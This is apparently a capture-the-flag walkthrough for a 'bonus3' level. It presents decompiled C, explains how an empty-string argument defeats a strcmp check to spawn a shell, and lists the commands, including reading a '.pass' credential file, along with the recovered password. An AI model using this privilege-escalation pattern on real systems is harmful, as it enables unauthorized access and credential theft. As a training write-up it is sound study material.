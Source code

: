 # Bonus 03 Walkthrough

## Binary analysis

The binary reads two buffers from a file and uses user input as an index to null-terminate the first buffer. If the first buffer matches the input string, it spawns a shell. Otherwise, it prints the second buffer.

### Key decompiled code
```c
FILE* fp = fopen("/home/user/end/.pass", "r");
char buffer_1[0x41];
memset(buffer_1, 0, 0x84);
if (fp == 0 || argc != 2) return -1;
fread(buffer_1, 1, 0x42, fp);
buffer_1[atoi(argv[1])] = 0;
char buffer_2[0x42];
fread(buffer_2, 1, 0x41, fp);
fclose(fp);
if (strcmp(buffer_1, argv[1]) != 0)
    puts(buffer_2);
else
    execl("/bin/sh", "sh", 0);
```

## Exploitation

- By passing an empty string as the argument, `atoi(argv[1])` returns 0, so `buffer_1[0] = 0`. This makes `buffer_1` an empty string, which matches the input, and the shell is spawned.

## Commands used

```
./bonus3 ""
cat /home/user/end/.pass
```

## Result

After running the exploit, we get a shell as end and can read the password:

```
cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```

